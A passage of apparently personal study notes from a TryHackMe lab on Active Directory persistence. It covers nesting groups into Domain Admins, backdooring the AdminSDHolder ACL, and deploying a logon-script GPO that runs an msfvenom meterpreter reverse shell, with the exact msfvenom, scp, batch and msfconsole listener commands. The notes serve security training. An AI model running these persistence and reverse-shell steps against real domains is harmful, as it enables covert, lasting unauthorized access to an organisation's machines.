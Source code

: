 			- And with the last group add them to the Domain Admins group `Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"`
			- Add the low-privileged user to the first group `Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low-priv-username>"`
			- That low-privileged user should now have access to THMDC.
- ## *Persistence Through ACLs*
	- #### *Persisting Through AD Group Templates*
		- In order to ensure a bit better persistence and make the blue team scratch their heads, we should rather inject into the templates that generate the default groups. By injecting into these templates, even if they remove our membership, we just need to wait until the template refreshes, and we will once again be granted membership.
		- One such template is the AdminSDHolder container. This container exists in every AD domain, and its Access Control List (ACL) is used as a template to copy permissions to all protected groups. Protected groups include privileged groups such as Domain Admins, Administrators, Enterprise Admins, and Schema Admins.
		- A process called SDProp takes the ACL of the AdminSDHolder container and applies it to all protected groups every 60 minutes. We can thus write an ACE that will grant us full permissions on all protected groups.
			- Use `runas /netonly /user:thmchilddc.tryhackme.loc\Administrator cmd.exe` to inject the Administrator credentials and then execute MMC from this new terminal.
			- Add the Users and Groups Snap-in. Make sure to enable Advanced Features (View > Advanced Features).
			- The AdminSDHolder group can be found under Domain > System.
			- Navigate to the Security of the group (Right-click > Properties > Security).
			- Add the low-privileged user and grant Full Control.
		- Now wait 60 mins max, and our user will have full control over all Protected Groups. Because the Security Descriptor (SDProp) service executes automatically every 60 mins and will propagate this change to all Protected Groups.
		- We can otherwise kick off the process manually using `Import-Module .\Invoke-ADSDPropagation.ps1` then `Invoke-ADSDPropagation`.
- ## *Persistence Through GPOs*
	- Group Policy Management in AD provides a central mechanism to manage the local policy configuration of all domain-joined machines.
	- This includes configuration such as membership to restricted groups, firewall and AV configuration, and which scripts should be executed upon startup.
	- It can be targeted by attackers to deploy persistence across the entire estate. What is even worse is that the attacker can often hide the GPO in such a way that it becomes almost impossible to remove it.
	- #### *Domain Wide Persistence*
		- Restricted Group Membership
			- This could allow us administrative access to all hosts in the domain
		- Logon Script Deployment
			- This will ensure that we get a shell callback every time a user authenticates to a host in the domain.
		- While having access to all hosts are nice, it can be even better by ensuring we get access to them when administrators are actively working on them.
		- To do this, we will create a GPO that is linked to the Admins OU, which will allow us to get a shell on a host every time one of them authenticates to a host.
		- **Create Reverse Shell**
			- Create a shell using `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > shell.exe`.
		- **Create Batch Script**
			- Windows allows us to execute Batch or PowerShell scripts through the logon GPO. Batch scripts are often more stable than PowerShell scripts so lets create one that will copy our executable to the host and execute it once a user authenticates.
			- Create the Batch script that should contain `copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\shell.exe C:\tmp\shell.exe && timeout /t 20 && C:\tmp\shell.exe`.
		- **Transfer the Scripts**
			- Copy the scripts to the SYSVOL directory using `scp shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/` and `scp script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/`.
		- **Start the Listener** 
			- Using `msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost persistad; set lport 4445; exploit"`.